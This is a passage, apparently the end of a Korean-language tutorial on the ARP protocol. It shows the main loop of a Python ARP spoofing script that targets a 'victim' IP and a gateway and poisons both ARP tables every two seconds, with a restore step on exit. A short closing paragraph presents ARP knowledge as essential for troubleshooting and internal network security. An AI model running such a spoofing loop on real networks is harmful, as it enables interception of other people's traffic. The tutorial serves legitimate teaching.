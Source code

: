 ```python
        send(packet, count=4, verbose=False)

# --- 실행 부분 ---
target_ip = "192.168.0.100"  # 희생자 IP
gateway_ip = "192.168.0.1"   # 게이트웨이 IP

try:
    sent_packets_count = 0
    while True:
        # 희생자에게 게이트웨이인 척 속이기
        spoof(target_ip, gateway_ip)
        # 게이트웨이에게 희생자인 척 속이기
        spoof(gateway_ip, target_ip)

        sent_packets_count += 2
        print(f"\r[+] Packets sent: {sent_packets_count}", end="")
        time.sleep(2) # 2초마다 반복
except KeyboardInterrupt:
    print("\n[-] Detected CTRL+C ... Resetting ARP tables. Please wait.")
    restore(target_ip, gateway_ip)
    restore(gateway_ip, target_ip)
    print("[+] ARP tables restored.")

```

### 마무리하며

ARP는 로컬 네트워크 통신의 근간을 이루는 매우 중요한 프로토콜입니다. 그 단순함 덕분에 효율적으로 동작하지만, 바로 그 단순함이 보안 취약점으로 이어지기도 합니다. 소프트웨어 엔지니어와 사이버 보안 전문가는 자신이 구축하고 보호하는 시스템이 어떻게 동작하는지 깊이 이해해야 합니다. ARP의 원리를 아는 것은 네트워크 문제 해결(Troubleshooting)의 첫걸음이자, 내부망 보안을 강화하는 데 필수적인 지식입니다.